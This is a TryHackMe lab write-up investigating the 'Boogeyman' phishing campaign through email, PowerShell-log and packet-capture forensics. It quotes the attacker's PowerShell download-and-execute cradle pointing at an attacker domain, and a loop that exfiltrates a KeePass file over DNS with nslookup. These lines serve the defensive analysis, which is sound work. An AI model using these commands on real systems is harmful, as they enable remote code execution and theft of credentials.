 ```yaml
---
{"dg-publish":true,"permalink":"/mitreattck-analysis/tryhackme/phishing-campaign-by-boogeyman-threat-group/","tags":["mitre"]}
---
```


[[]]
### Case Description
---
A finance employee receives an email regarding about an unpaid invoice from their business partner, the employee clicked the attachment and compromised her workstation.

Further reports received from other finance department employees that they received the same email, research reveals a new threat group named Boogeyman known for targeting the logistics sector.
## Tools
---
- Thunderbird
- LNKParse3 - a python package for forensic analysis on LNK extensions.
- Wireshark/Tshark
- jq - a commandline JSON parser

# Analysis

The artefacts are:
- dump.eml - the phishing email sent by the threat group.
- Powershell logs
- Packet Capture from the compromised workstation.
### Email Analysis
---
Sample screenshot of the email received by the financial employee:

![Pasted image 20240920174933.png](/img/user/x/images/Pasted%20image%2020240920174933.png)
- Sender: agriffin@bpakcaging[.]xyz - note on the missing 'c' in 'packaging'.
- Receiver: julianne.westcott@hotmail[.]com.
- Third-party mail relay service: elasticemail.
- The attached filename is: Invoice_20230103[.]lnk

Using `lnkparse email.lnk` shows that it opens up a powershell hidden with a base64 encoded payload:

![Pasted image 20240920175150.png](/img/user/x/images/Pasted%20image%2020240920175150.png)
The decoded string is:

```Powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```
### Endpoint Analysis
---
Sample screenshot of the Powershell logs:

![Pasted image 20240920183325.png](/img/user/x/images/Pasted%20image%2020240920183325.png)

![Pasted image 20240920183737.png](/img/user/x/images/Pasted%20image%2020240920183737.png)
![Pasted image 20240920184102.png](/img/user/x/images/Pasted%20image%2020240920184102.png)
- The subdomain `files` is most likely used to serve the required files for
- The second subdomain `cdn` is most likely the Command and Control as based on the script analysis, it makes a POST request to this subdomain.
- The threat actor downloaded two binaries from their domain one is **sb.exe** and **sq3.exe**.

Since the compromised started with the base64 encoded payload, I will sort the logs via timestamp and use grep to print out the _after-context_, in this way we can see the following events:

```Powershell
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[] | {ScriptBlockText}' | grep "iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')" -A 30
```

Command Output:

![Pasted image 20240920185226.png](/img/user/x/images/Pasted%20image%2020240920185226.png)
The threat actor download a `sb.exe` ~~which I assume is a binary that gives you privileges based on the commands inputted~~:

![Pasted image 20240920185612.png](/img/user/x/images/Pasted%20image%2020240920185612.png)
After further research and viewing down the logs, it is [seatbelt.exe](https://github.com/GhostPack/Seatbelt) used to test safety checks implemented by gathering data based on inputs:

Screenshot from the github documentation:

![Pasted image 20240920190053.png](/img/user/x/images/Pasted%20image%2020240920190053.png)
The **sq3.exe** binary is found and executed against microsoft sticky notes:

![Pasted image 20240920190512.png](/img/user/x/images/Pasted%20image%2020240920190512.png)
- Further analysis found the name of the user is j.westcott found using the logs from `cd` commands.

Then the threat actor exfiltrated a file named **protected_data.kdbx** (KeePass Password Manager) from the Documents directory with a IP address destination: 167.71.211.113:

```PowerShell
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[] | {ScriptBlockText}' | grep "sq3.exe"  -A 20
```

Command Output:

![Pasted image 20240920190953.png](/img/user/x/images/Pasted%20image%2020240920190953.png)
Then the threat actor uses `hex` as encoding for exfiltrating the files:

![Pasted image 20240920191252.png](/img/user/x/images/Pasted%20image%2020240920191252.png)
##### Analyzing the PowerShell
---
```powershell
$split = $hex -split '(\\S{50})'; ForEach ($line in $split) { nslookup -q=A \"$line.bpakcaging.xyz\" $destination;} echo \"Done\";;pwd"}
```

- The hex are splitted into chunks each chunk contains 50 characters and is stored in a variable name `$split`.
- Each line `$split` has is appended to `$<hex_data_here>.bpakcaging.xyz` and uses nslookup to exfiltrate the data.
- The threat actor Domain Name System Server will capture the lookup attempts and logs them for the attacker to view and rebuild the file using the hex.
### Network Traffic Analysis
---
Based on the screenshot the threat actor leverages a simple python server to host their files:

![Pasted image 20240920193422.png](/img/user/x/images/Pasted%20image%2020240920193422.png)
Using Wireshark we can find the DNS queries to the threat actor DNS server with:

```bash
dns.resp.name and ip.addr == 167.71.211.113
```

Command Output:

![Pasted image 20240920194200.png](/img/user/x/images/Pasted%20image%2020240920194200.png)
Using tshark with the above filter + regular expression matching results into:

```bash
tshark -r capture.pcapng --color -Y "dns.resp.name and ip.addr == 167.71.211.113" | grep -E "[a-zA-Z0-9]+\.bpakcaging\.xyz" -o
```

Command output:

![Pasted image 20240920200639.png](/img/user/x/images/Pasted%20image%2020240920200639.png)
- Discovered additional subdomain by the threat actor
- Exfiltrated hex encoded data.

Rebuilding the `.kdbx` file with the command:

```bash
tshark -r capture.pcapng --color -Y "dns.resp.name and ip.addr == 167.71.211.113" | grep -E "([a-zA-Z0-9])+\.bpakcaging\.xyz" -o | sed 's/.bpakcaging.xyz//g' | sed 's/ns1//g' | sed 's/ns2//g' | xxd -r -p > file.kdbx
```

However it requires the password:

![Pasted image 20240920202344.png](/img/user/x/images/Pasted%20image%2020240920202344.png)
I filtered for port 8080 and http on Wireshark:

![Pasted image 20240920210615.png](/img/user/x/images/Pasted%20image%2020240920210615.png)
- It shows the command given by the C2 in every http response code 200 and make a POST request back to the C2 to show the output of the command.

In tshark we can get each line with this command:

```Bash
tshark -r capture.pcapng --color -Y 'http and tcp.port == 8080 and http.request.method == "POST"' -T fields -e http.file_data | head -n 1
```

Command Output:

![Pasted image 20240921163104.png](/img/user/x/images/Pasted%20image%2020240921163104.png)
Then by removing the `head -n 1` and storing them to a file and using a python script to convert the decimal to their ASCII equivalent:

```bash
tshark -r capture.pcapng --color -Y 'http and tcp.port == 8080 and http.request.method == "POST"' -T fields -e http.file_data > ./test.txt
```

And the python code:

![Pasted image 20240921164801.png](/img/user/x/images/Pasted%20image%2020240921164801.png)
Then saving it into a file and using grep:

![Pasted image 20240921165201.png](/img/user/x/images/Pasted%20image%2020240921165201.png)
Based on the powershell logs the threat actor accessed the `plum.sqlite` database for Microsoft Sticky Notes:

```bash
cat output.txt | grep "plum.sqlite" -a -A 100
```

Command output:

![Pasted image 20240921170656.png](/img/user/x/images/Pasted%20image%2020240921170656.png)
Then we can open the `.kdbx` file and use the found password:

`CTRL +H `

![Pasted image 20240921171232.png](/img/user/x/images/Pasted%20image%2020240921171232.png)




